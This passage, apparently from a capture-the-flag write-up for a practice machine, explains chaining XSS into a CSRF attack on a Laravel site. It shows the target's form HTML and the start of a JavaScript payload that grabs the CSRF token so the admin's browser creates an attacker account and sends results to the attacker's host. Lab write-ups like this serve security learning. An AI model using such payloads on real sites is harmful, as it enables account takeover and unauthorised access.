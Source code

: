 ```

<form action="http://ftp.crossfit.htb/accounts" method="POST">
    <input type="hidden" name="_token" value="2kUXRzOMFY721Bppx9GnlMDpRKsc9CcX1qVzbD3H">
     <div class="row">
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Username:</strong>
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>

</form>

```

### CSRF Account Request

I want to create an account from the admin’s machine. This is now moving from XSS to Cross-Site Request Forgery (CSRF / XSRF), where I trick some other person to take an action I want under their access/authority. In this case, I want the admin to create an account on ftp.crossfit.htb for me.

The challenge here is the `_token` value in the form. I need to get that, and then return it with the request. Googling for `csrf "_token"`, the first two responses are for the Laravel framework:

![image-20210123070635445](https://0xdfimages.gitlab.io/img/image-20210123070635445.png)

According to [the docs](https://laravel.com/docs/8.x/csrf):

> Laravel automatically generates a CSRF “token” for each active [user session](https://laravel.com/docs/8.x/session) managed by the application. This token is used to verify that the authenticated user is the person actually making the requests to the application. Since this token is stored in the user’s session and changes each time the session is regenerated, a malicious application is unable to access it.

That means I need to make sure that the CSRF is collected and then re-sent within a single session. To do that, I just [need to set](https://stackoverflow.com/questions/50948129/use-the-same-session-in-xmlhttprequest) `request.withCredentials = true;` in my `XMLHttpRequest` object.

I’ll start with a request to get the page at `ftp.crossfit.htb/accounts/create`. In that page, I’ll find the CSRF token, and then send a POST to `ftp.crossfit.htb/accounts` with the token and a username and password. I’ll then POST the results of that back to my host.

```

function get_token(body) {
    var dom = new DOMParser().parseFromString(body, 'text/html');
    return dom.getElementsByName('_token')[0].value;
}

var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if (fetch_req.readyState == XMLHttpRequest.DONE) {
        var token = get_token(fetch_req.response);

        var reg_req = new XMLHttpRequest();
        reg_req.onreadystatechange = function() {
```